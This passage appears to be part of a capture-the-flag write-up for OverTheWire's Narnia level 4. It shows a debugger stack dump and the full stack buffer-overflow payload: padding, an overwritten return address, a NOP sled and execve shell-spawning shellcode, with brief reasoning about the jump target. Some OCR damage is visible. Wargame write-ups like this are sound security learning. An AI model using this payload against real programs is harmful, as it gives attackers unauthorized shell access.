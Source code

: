 0xffffcdf8\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce08\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce18\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce28\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce38\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce48\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce58\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce68\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce78\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce88\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce98\:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcea8\:     0x41414141      0x41414141      0x41414141      0x41414141           0xffffceb8\:     0x41414141      0x42424242      0x90909090      0x90909090           0xffffcec8\:     0x90909090      0x90909090      0x90909090      0x90909090           0xffffced8\:     0x90909090      0x90909090      0x90909090      0x90909090           0xffffcee8\:     0x90909090      0x90909090      0x90909090      0x90909090           0xffffcef8\:     0x90909090      0x90909090      0x90909090      0x90909090           0xffffcf08\:     0x90909090      0x90909090      0x90909090      0x90909090           0xffffcf18\:     0x90909090      0x90909090      0x90909090      0x99580b6a              
0xffffcf28\:     0x2d686652      0x52e18970      0x2f68686a      0x68736162           0xffffcf38\:     0x6e69622f      0x5152e389      0xcde18953      0x00000080                                                                                                   
{% endhighlight %}

We can see that the NOP sled starts at 0xffffcec0, and the shellcode starts at 0xffffcf24. So the eip register can point to any address within the boundaries of these two address (the address of 0xffffcf08 was arbitrarily chosen\; any address within the nop sled would work)\:

{% highlight bash %}
pwndbg> r $(python -c "print 'A'*264+'\\x08\\xcf\\xff\\xff'*4+'\\x90'*100+'\\x6a\\x0b\\x58\\x99\\x52\\x66\\x68\\x2d\\x70\\x89\\xe1\\x52\\x6a\\x68\\x68\\x2f\\x62\\x61\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe  
3\\x52\\x51\\x53\\x89\\xe1\\xcd\\x80'")                                                                                                                                              
Starting program\: /home/0xd4y/business/other/overthewire/narnia/4/narnia4 $(python -c "print 'A'*264+'\\x08\\xcf\\xff\\xff'*4+'\\x90'*100+'\\x6a\\x0b\\x58\\x99\\x52\\x66\\x68\\x2d\\x70\\x89\\xe1\\x52\\x6a\\x68\\x68\\x2f\\x62\\x61\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x52\\x51\\x53\\x89\\xe1\\xcd\\x80'")                                                                          
{% endhighlight %}

![](/reports/Narnia/image11.png)

